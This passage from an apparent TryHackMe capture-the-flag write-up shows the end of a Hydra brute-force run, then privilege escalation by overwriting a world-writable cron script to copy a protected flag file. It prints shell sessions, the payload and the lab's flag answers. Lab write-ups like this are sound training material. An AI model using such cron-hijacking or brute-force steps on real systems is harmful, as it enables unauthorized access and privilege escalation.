 ```bash
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-26 01:25:13
```

```bash
sam@ip-10-10-187-92:~$ ls
flag1.txt
sam@ip-10-10-187-92:~$ cat flag1.txt
THM{dec4389bc09669650f3479334532aeab}
sam@ip-10-10-187-92:~$
```

### 3 - Escalate your privileges by taking advantage of a cronjob running every minute. What is flag2?

Looking in the home directory we find a directory owned by root with full permissions to everyone.

```bash
sam@ip-10-10-34-183:/home$ ls -alh
total 20K
drwxr-xr-x  5 root   root   4.0K Dec 19 20:12 .
drwxr-xr-x 23 root   root   4.0K May 27 02:17 ..
drwxr-xr-x  3 sam    sam    4.0K May 27 02:30 sam
drwxrwxrwx  2 root   root   4.0K May 27 02:30 scripts
drwxr-xr-x  6 ubuntu ubuntu 4.0K Dec 19 20:51 ubuntu
```

Navigating in that directory we find a script that is owned by `ubuntu` and likely being run as cron:

```bash
sam@ip-10-10-34-183:/home/scripts$ ls -alh
total 16K
drwxrwxrwx 2 root   root   4.0K Dec 19 20:55 .
drwxr-xr-x 5 root   root   4.0K Dec 19 20:12 ..
-rwxrwxrwx 1 ubuntu ubuntu   14 Dec 19 20:55 clean_up.sh
-rw-r--r-- 1 root   root      5 Dec 19 20:55 test.txt
sam@ip-10-10-34-183:/home/scripts$ cat clean_up.sh
rm -rf /tmp/*
```

We can verify that this script is being run as a minutely cron by watching the `/tmp` directory, creating a file in `/tmp`, and verifying that the file is removed after one minute. Here is the payload that we can put into the `clean_up.sh` script to get the flag:

```bash
#!/bin/bash

cat /home/ubuntu/flag2.txt >> /home/sam/cron_flag.txt
chmod 444 /home/sam/cron_flag.txt
```

And we get the flag:

```bash
sam@ip-10-10-34-183:~$ cd /home/sam
sam@ip-10-10-34-183:~$ ls
cron_flag.txt  flag1.txt
sam@ip-10-10-34-183:~$ cat cron_flag.txt
THM{b27d33705f97ba2e1f444ec2da5f5f61}
```
